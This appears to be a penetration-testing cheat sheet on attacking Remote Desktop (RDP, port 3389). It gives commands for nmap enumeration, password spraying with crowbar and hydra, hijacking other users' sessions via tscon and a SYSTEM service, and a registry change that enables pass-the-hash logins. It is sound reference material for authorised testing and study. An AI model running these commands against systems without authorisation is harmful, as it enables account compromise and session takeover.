 # RDP \[3389]

## Enumeration

```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```

## Brute force

{% hint style="danger" %}
**you could lock accounts if the failed attempts are exceeded.**
{% endhint %}

## **Password Spraying**

<pre><code><strong># crowbar
</strong><strong>crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
</strong># hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
</code></pre>

> Password spraying is a form of brute force attack where you use one password and iterate through all user names. The account could still get locked if not careful.

## Session stealing

With **SYSTEM permissions** you can access any **opened RDP session by any user** without need to know the password of the owner.

**Get openned sessions:**

```
query user
```

**Access to the selected session**

```
tscon <ID> /dest:<SESSIONNAME>
```

**Access to the selected session as local administrator priv**

```
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
# create the service which will be ran as SYSTEM priv.
net start sessionhijack
# start the service
```

{% hint style="warning" %}
This no longer works on Server 2019
{% endhint %}

## **Service Interaction**

```shell-session
xfreerdp /v:<target-IP> /u:<user> /p:<pass>
rdesktop <target-IP> -u <user> -p <pass>
```

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption><p>This error could occur during /pth if DisableRestrictedAdmin is not set</p></figcaption></figure>

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

[CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)
